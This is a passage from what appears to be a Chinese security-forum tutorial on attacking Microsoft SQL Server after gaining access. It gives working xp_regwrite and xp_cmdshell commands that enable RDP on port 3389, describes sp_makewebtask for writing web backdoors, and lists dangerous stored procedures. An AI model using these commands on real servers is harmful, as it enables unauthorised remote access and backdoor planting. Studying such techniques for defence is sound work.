- **开启3389端口**  
    这里的`xp_regwrite`为向注册表中写数据

```sql
exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;

exec master..xp_cmdshell "REG ADD 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0"
```

![2s450H.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c578d5bc9d8777eb4add9e0b45a5b8a20cec57e9.png)

在注册表中也可以看到3389端口被打开

![2s4I7d.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b8d69d611f218ef627eb1b50133c283670caf34e.png)

#### 3）参考

[https://sqlandme.com/tag/xp\_regwrite/](https://sqlandme.com/tag/xp_regwrite/)

[IFEO映像劫持在实战中的使用 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/96504762)

### 5、使用sp\_makewebtask写文件

> 2005

一般可以用于web网站，写入后门文件

#### 1）查看该组件

```php
EXEC sp_configure 'Web Assistant Procedures'
```

#### 2）开启该组件

```php
exec sp_configure 'Web Assistant Procedures', 1; RECONFIGURE
```

报错，在SQLServer2005后好像都没有这个组件了

### 6、拓展&amp;小结

常见的存储过程：

```php
xp_cmdshell         执行系统命令
xp_fileexist        确定一个文件是否存在。
xp_getfiled etails  获得文件详细资料。
xp_dirtree          展开你需要了解的目录，获得所有目录深度。
Xp_getnetname       获得服务器名称。

注册表访问的存储过程
Xp_regwrite
Xp_regread
Xp_regdeletekey
Xp_regaddmultistring
Xp_regdelete value
Xp_regenumvalues
Xp_regremovemultistring

OLE自动存储过程
Sp_OACreate Sp_OADestroy Sp_OAGetErrorInfo Sp_OAGetProperty
Sp_OAMethod Sp_OASetProperty Sp_OAStop  
```
